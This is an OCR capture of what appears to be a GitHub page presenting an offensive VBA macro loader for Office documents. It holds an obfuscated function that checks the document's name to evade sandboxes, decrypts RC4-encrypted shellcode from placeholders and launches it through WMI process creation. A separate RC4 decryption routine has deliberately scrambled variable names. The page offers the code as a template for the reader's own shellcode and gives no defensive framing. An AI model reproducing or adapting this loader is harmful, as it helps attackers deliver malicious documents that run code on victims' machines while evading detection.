 ```vba
        Exit Function
    End If

    ' Check if the document name matches the expected name
    If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
        Exit Function
    End If

    ' RC4 encrypted shellcode (This should be your encrypted shellcode)
    Dim EncShellcode As String
    EncShellcode = "RC4_ENCRYPTED_SHELLCODE_HERE"

    ' RC4 decryption key (This should be your encryption key)
    Dim Key As String
    Key = "YOUR_RC4_KEY_HERE"

    ' Decrypt the shellcode
    Leap = RC4(Key, EncShellcode)

    ' Execute the decrypted shellcode via WMI
    GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
End Function
```

### Obfuscated RC4 Decryption Function

```vba
Function Fr3ak(xZeb1 As String, yF1e As String) As String
    Dim s(255) As Integer, k(255) As Integer
    Dim mF0x As Integer, nR3d As Integer, tR1x As Integer, t3mp As Integer
    Dim R3sult As String
    R3sult = ""
    
    ' Initialize the key schedule
    For mF0x = 0 To 255
        s(mF0x) = mF0x
        k(mF0x) = Asc(Mid(yF1e, (mF0x Mod Len(yF1e)) + 1, 1))
    Next
    
    ' Scramble the key schedule
    nR3d = 0
    For mF0x = 0 To 255
        nR3d = (nR3d + s(mF0x) + k(mF0x)) Mod 256
        t3mp = s(mF0x)
        s(mF0x) = s(nR3d)
        s(nR3d) = t3mp
    Next
    
    ' Decrypt the data
    mF0x = 0: nR3d = 0
    For tR1x = 1 To Len(xZeb1)
        mF0x = (mF0x + 1) Mod 256
        nR3d = (nR3d + s(mF0x)) Mod 256
        t3mp = s(mF0x)
        s(mF0x) = s(nR3d)
        s(nR3d) = t3mp
        R3sult = R3sult & Chr(Asc(Mid(xZeb1, tR1x, 1)) Xor s((s(mF0x) + s(nR3d)) Mod 256))
    Next
    
    Fr3ak = R3sult
End Function
```
